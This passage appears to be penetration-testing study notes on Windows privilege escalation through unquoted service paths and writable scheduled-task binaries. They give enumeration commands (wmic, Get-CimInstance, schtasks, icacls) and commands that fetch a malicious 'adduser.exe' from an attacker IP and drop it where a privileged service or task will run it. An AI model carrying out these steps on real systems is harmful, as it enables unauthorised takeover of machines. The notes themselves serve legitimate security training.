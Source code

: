 
##### Unquoted Service Paths
- Can abuse unquoted paths if a single parent dir of the service is writable
- Can use powerup.ps1 to identify potential candidates

Steps
1. Identify vulnerable services
2. Verify if you can stop/start service
	-  If not, verify service is autostart and reboot box
3. Iterate through parent dirs, checking permissions
4. upload malicious file to parent directory and start


```
1. 
Get-CimInstance -ClassName win32_service | Select Name,State,PathName

wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

2. 
Start-Service
Stop-Service

3.
icacls C:\
icacls C:\Program Files
icacls C:\Program Files\Enterprise Apps
icacls C:\Program Files\Enterprise Apps\Current Version\
icacls C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe

4.
iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```


## 16.2 Abusing other Windows Components 

##### Scheduled Tasks 
- Three pieces of info needed for potential escalation
	- As which user account (principal) does this task get executed?
	- What triggers are specified for the task?
	- What actions are executed when one or more of these triggers are met?
- Escalation relies on high privilege scheduled task with writable access 

Steps
1. Enum schtasks
2. List permissions of the executable the schtask is triggering 
3. Replace executable and wait for trigger


```
1.
schtasks /query /fo LIST /v

2.
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe

3.
iwr -Uri http://192.168.119.3/adduser.exe -Outfile BackendCacheCleanup.exe

4.
iwr -Uri http://192.168.119.3/adduser.exe -Outfile BackendCacheCleanup.exe
move .\BackendCacheCleanup.exe .\<executable_path>\
```
